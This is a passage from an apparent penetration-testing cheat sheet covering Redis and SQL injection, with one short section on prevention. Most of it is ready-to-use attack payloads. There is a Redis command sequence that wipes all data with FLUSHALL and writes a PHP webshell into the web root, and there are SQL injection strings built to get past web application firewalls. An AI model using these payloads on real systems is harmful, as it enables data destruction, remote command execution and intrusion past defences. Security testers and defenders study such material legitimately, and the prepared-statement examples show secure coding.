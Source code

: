 **Documentation**: NoSQL injection techniques targeting MongoDB and similar document databases.
**Limitations**: Specific to NoSQL databases; requires understanding of query structure; less common than SQL injection.

### Redis Injection
```bash
# Redis Command Injection
FLUSHALL                                                          # Clear all data
CONFIG SET dir /var/www/html/                                     # Set directory
CONFIG SET dbfilename shell.php                                   # Set filename
SET test "<?php system($_GET['cmd']); ?>"                        # Write webshell
SAVE                                                              # Save to file
```

**Documentation**: Redis-specific injection techniques for unauthorized access and command execution.
**Limitations**: Requires Redis access; specific configuration needed; modern Redis has better security.

## SQL Injection Prevention and Detection

### Input Validation Examples
```php
// PHP Prepared Statements (Secure)
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$user_id]);

// PHP Input Validation
$user_id = filter_input(INPUT_GET, 'id', FILTER_VALIDATE_INT);
if ($user_id === false) {
    die("Invalid input");
}

// Parameterized Queries (C#)
string sql = "SELECT * FROM users WHERE id = @id";
SqlCommand cmd = new SqlCommand(sql, connection);
cmd.Parameters.AddWithValue("@id", userId);
```

**Documentation**: Secure coding practices to prevent SQL injection vulnerabilities.
**Limitations**: Requires developer training; legacy code may be difficult to retrofit; performance considerations.

### WAF Bypass Techniques
```sql
-- Case Variation
' UnIoN SeLeCt NULL,NULL,NULL-- -

-- Comment Insertion
' UN/**/ION SE/**/LECT NULL,NULL,NULL-- -

-- Encoding
%27%20UNION%20SELECT%20NULL,NULL,NULL--%20-                      # URL encoding
' UNION SELECT CHAR(65),NULL,NULL-- -                            # Character encoding

-- Alternative Syntax
' UNION SELECT 0x41,NULL,NULL-- -                                # Hexadecimal
' /*!50000UNION*/ /*!50000SELECT*/ NULL,NULL,NULL-- -           # MySQL version comments
```
